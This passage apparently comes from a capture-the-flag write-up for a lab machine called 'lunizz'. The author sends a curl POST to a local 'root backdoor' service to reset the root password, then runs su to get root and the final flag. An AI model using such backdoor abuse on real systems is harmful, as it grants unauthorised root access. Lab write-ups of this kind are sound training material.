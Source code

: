 ```
-rw-r--r--  1 root root   66 Dec 10 19:35 .selected_editor
drwx------  2 root root 4096 Dec 10 19:09 .ssh
**********************************************************
*        Mason's Root Backdoor                   *
*                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
interesting, we don't want to reboot so lets try passwd
```
mason@lunizz:~$ curl localhost:8080 -X POST -d "password=[mason's password]&cmdtype=passwd"
<br>Password Changed To :[newpass]<br>**********************************************************
*        Mason's Root Backdoor                   *
*                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```
presumably we just reset the root password so lets find out
```
mason@lunizz:~$ su -
Password:
root@lunizz:~#
```
We have root and can find the final flag in the root directory!
